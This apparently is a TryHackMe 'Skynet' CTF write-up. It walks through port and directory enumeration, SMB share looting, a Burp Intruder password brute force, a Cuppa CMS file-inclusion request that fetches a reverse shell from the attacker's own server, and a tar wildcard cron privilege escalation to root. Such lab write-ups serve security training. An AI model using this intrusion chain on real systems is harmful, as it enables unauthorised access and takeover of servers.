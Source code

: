 ```yaml
---
title: Skynet
published: 2023-09-20
description: 'A writeup of the tryhackme room skynet'
image: ''
tags: [Tryhackme]
category: 'Writeups'
project: 'Tryhackme Writeups'
draft: false 
---
```

# Skynet Room Writeup

## Enumeration

```BASH
sudo nmap -oA nmap/intial -sV -sC -sS -vv -T4 10.10.249.243
```

```BASH
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        syn-ack ttl 61 Dovecot pop3d
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 61 Dovecot imapd
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

Some interesting ports, let's check out files on the website:

```BASH
gobuster dir -e -u http://10.10.249.243/ -w /usr/share/wordlists/dirb/common.txt -t40
```

```BASH
http://10.10.249.243/squirrelmail         (Status: 301) [Size: 321] [--> http://10.10.249.243 squirrelmail/]
```

We see there is a log in page for the server's email.

## Samba Enumeration 

Let's enumerate the Samba shares. We will be using `smbmap` for this. 

```BASH
smbmap -H 10.10.249.243 
[+] Guest session       IP: 10.10.249.243:445   Name: 10.10.249.243                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
```

Let's checkout the anonymous share

```BASH
smbmap -H 10.10.249.243 -R anonymous 
```

We see some log files. Let's download them:

```BASH
smbmap -H 10.10.249.243 -R --depth 2 -A 'log'
```

The first of the logs has a list of what looks like passwords, the other two files are empty. Let's see if we can log into the `/squirrelmail` page. Open up burp suite and turn on the proxy. Now enter some data for the login page and click log in. Hold the request and press `ctrl+i` to send the request to the intruder tab.

Here, we will mount our attack. We will use `mikedyson` as the username as revealed by the share, then we will set a variable in the password field. Then move to the payload tab, and load the log file from early into the simple list section.

Then click run. You will notice one of the responses is shorter than the rest, that is the password we are looking for. Logging in, we see an email from skynet with miles' smb password.

```BASH
smbmap -u milesdyson -p ')s{A&2Z=F^n_E.B`' -H 10.10.249.243 -R
```

There's a document called `important.txt` in his notes, let's grab that:

```BASH
smbmap -u milesdyson -p ')s{A&2Z=F^n_E.B`' -H 10.10.249.243 -R -A "important"
```

This file contains the hidden directory. It turn out to be a personal page for miles, we know however there is a CMS system in place, let's see if gobuster can find an admin page.


```BASH
gobuster dir -e -u http://10.10.249.243/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirb/common.txt -t40
```

## Exploitation

We have found an admin page for "Cuppa" CMS. I tried our previous credentials but we don't have access. There is however a known vulnerability. Using [this](https://www.exploit-db.com/exploits/25971) as reference, we can upload a reverse shell.


```BASH
sudo python3 -m http.server 80 # use this to upload your shell script
http://10.10.249.243/45kra24zxs28v3yd/cuppa/alerts/alertConfigField.php?urlConfig=http://$MY_IP/shell.php? 
```

We now have a shell, let's stabilise it.

```BASH
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl Z
stty raw -echo; fg
enter
```

The user flag is located in miles' home directory.

## Privilige Escalation

Looking at /etc/crontab, root is executing a script in miles' home directory.

```BASH
# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

Looking at the script in question, root is making an archive out of everything inside /var/www/html with a wildcard character (`*`). This is open to exploitation, best explained [here](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/). You may need a script of your own to create the files as they require double quotes in the touch command.

```BASH
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Once root creates another archive we should receive a reverse shell as root. The root flag is located in the root user's directory.

